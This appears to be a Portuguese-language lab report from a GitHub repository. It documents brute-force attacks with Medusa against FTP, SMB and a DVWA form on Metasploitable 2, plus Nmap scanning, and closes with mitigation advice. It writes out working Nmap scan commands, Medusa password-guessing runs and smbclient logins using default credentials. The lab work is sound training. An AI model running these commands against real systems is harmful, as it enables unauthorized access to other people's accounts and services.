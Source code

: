 # Relatório Técnico — Ataques de Força Bruta com Medusa

## 1. Sumário executivo
Laboratório realizado em ambiente controlado para demonstrar técnicas de força bruta (Medusa) e mapeamento de serviços (Nmap). Testes foram conduzidos contra FTP, formulário web (DVWA) e SMB. Credenciais fracas foram identificadas em ambiente de teste; recomendações de mitigação foram propostas.

---

## 2. Objetivos
- Demonstrar ataques de força bruta em serviços FTP e SMB usando Medusa.  
- Demonstrar automação contra formulário web (DVWA) via `http-post` (exemplo).  
- Mapear portas e serviços com Nmap (TCP/UDP) e identificar SO.  
- Documentar procedimentos, resultados e recomendações.

---

## 3. Ambiente de teste
- Atacante: Kali Linux (versão: <KALI_VERSION>)  
- Alvo: Metasploitable 2 / DVWA (versão: padrão do lab)  
- Ferramentas: Medusa (versão: <MEDUSA_VERSION>), Nmap (versão: <NMAP_VERSION>), smbclient  
- Rede: VirtualBox — Host-Only/Internal  
- IPs: todos substituídos por placeholders no repositório público (`<TARGET_IP>`)

---

## 4. Wordlists utilizadas
- `wordlists/small-users.txt`: lista de usuários de exemplo.  
- `wordlists/small-pass.txt`: lista de senhas de exemplo (para demonstração).  
> Observação: listas reduzidas apenas para demonstração; auditorias reais exigem wordlists apropriadas e autorização.

---

## 5. Comandos executados (resumo)
> Substitua `<TARGET_IP>` e `<PORTA>` pelos valores do seu laboratório.

### 5.1 Conectividade
```bash
ping -c 4 <TARGET_IP>

# 5.2 Mapeamento de portas e serviços (Nmap)

UDP scan:

sudo nmap -v -sU -p <PORTAS> <TARGET_IP>


TCP SYN (stealth):

sudo nmap -v -sS <TARGET_IP>


 Versão do serviço + timing agressivo:

sudo nmap -v -T5 -sS -sV -p <PORTA> <TARGET_IP>


 Detecção completa (SO, versão, scripts):

sudo nmap -A <TARGET_IP>


Detecção de sistema operacional:

sudo nmap -O <TARGET_IP>

 Ignorar discovery e mostrar só portas abertas:

sudo nmap -v -T5 -sS -Pn --open <TARGET_IP>


## Observações: -T5 é agressivo; para menos risco de instabilidade use -T4. Scans UDP são lentos e menos confiáveis.

# 5.3 Teste manual de FTP
ftp <TARGET_IP>


## Verifica se o serviço FTP responde e permite login manual.

# 5.4 Preparação de wordlists

## Usuários:

echo -e "user\nmsfadmin\nadmin\nroot" > user.txt


## Senhas:

echo -e "password\n123456\nwelcome\nmsfadmin" > senhas_spray.txt


(Use aspas normais " e echo -e com espaço.)

# 5.5 Ataques com Medusa

## Exemplo genérico:

medusa -h <TARGET_IP> -U users.txt -P senhas_spray.txt -M <serviço> -t 10


## Exemplo SMB:

medusa -h <TARGET_IP> -U smb_users.txt -P senhas_spray.txt -M smbnt -t 10 | tee artifacts/medusa-smb-output.txt


## Exemplo FTP (usuário único):

medusa -h <TARGET_IP> -u msfadmin -P wordlists/small-pass.txt -M ftp | tee artifacts/medusa-ftp-output.txt


## Atenção: -t define threads; threads muito altas podem derrubar serviços.

# 5.6 Validação SMB (smbclient)
smbclient -L //<TARGET_IP> -U msfadmin
(não recomendado para repositório público)
smbclient -L //<TARGET_IP> -U msfadmin%msfadmin

# 6. Resultados (resumo)

FTP: credencial de exemplo msfadmin:msfadmin encontrada no ambiente de teste. Login confirmado manualmente via ftp. (Logs salvos em artifacts/medusa-ftp-output.txt — não publicados)

SMB: credencial msfadmin:msfadmin validada em ambiente de teste. (Logs salvos em artifacts/medusa-smb-output.txt)

DVWA (webform): com a wordlist reduzida não foram encontradas credenciais; é necessário ajustar campos do formulário ou usar wordlists maiores para testes mais amplos.

## Observação: os outputs reais foram mantidos localmente e não foram publicados por razões de segurança.

# 7. Análise de risco

Contas com senhas fracas permitem acesso não autorizado a serviços (FTP/SMB), podendo levar a movimentação lateral e exfiltração em ambientes reais.

Serviços desatualizados ou expostos sem segmentação aumentam a superfície de ataque.

# 8. Recomendações de mitigação

Forçar políticas de senha fortes e rotação periódica.

Implementar bloqueio/retardo após N tentativas de autenticação falhas.

Habilitar autenticação multifator (MFA) para acessos críticos.

Segmentar rede e limitar exposição de serviços via VPN ou regras de firewall.

Monitoramento e alertas para tentativas de brute force e padrões anômalos.

Atualizar serviços e corrigir vulnerabilidades conhecidas.

# 9. Como reproduzir (resumo rápido)

Provisionar VMs: Kali Linux + Metasploitable2 (DVWA).

Configurar VirtualBox: Host-Only/Internal network.

No Kali: sudo apt update && sudo apt install medusa nmap smbclient -y.

Preparar wordlists em wordlists/.

Executar nmap para mapear portas; executar medusa conforme comandos acima; validar manualmente com ftp/smbclient.

Salvar logs em artifacts/ (local) e screenshots em screenshots/ (privado).

# 10. Apêndices

commands.sh — script com os comandos usados (ex.: executar medusa e salvar saídas).

wordlists/ — listas de exemplo (pequenas).

DISCLAIMER.md e MIT-LICENSE.txt.






